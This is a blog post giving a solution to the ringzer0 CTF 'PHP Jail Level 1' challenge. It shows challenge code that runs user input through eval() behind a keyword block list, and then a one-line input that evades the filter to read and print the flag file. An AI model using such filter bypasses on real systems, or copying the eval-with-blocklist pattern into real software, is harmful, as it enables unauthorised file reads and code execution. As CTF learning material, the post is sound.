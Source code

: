 +++
title = "ringzer0 CTF - Jail Escaping PHP"
author = "Victor Dorneanu"
date = "2016-06-20"
tags = ["ringzer0", "ctf", "wargames", "php "]
category = "blog"
+++

Here are my solutions for the [ringzer0](https://ringzer0team.com) **Jail Escaping** PHP challenges.

# Level 1

```.php
RingZer0 Team Online CTF

PHP Jail Level 1:
Current user is uid=1000(level1) gid=1000(level1) groups=1000(level1)

Flag is located at /home/level1/flag.txt

Challenge PHP code:
-----------------------------

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

function filter($var) {
        if(preg_match('/(`|open|exec|pass|system|\$|\/)/i', $var)) {
                return false;
        }
        return true;
}
if(filter($var)) {
        eval($var);
        echo "Command executed";
} else {
        echo "Restricted characters has been used";
}
echo "\n";
?>

-----------------------------
Your input:
```

Pretty simple:

```.shell
Your input:
echo(file_get_contents('flag.txt'));
FLAG-sW66QEY4y6724723c7w1i0oMt179E75y
```
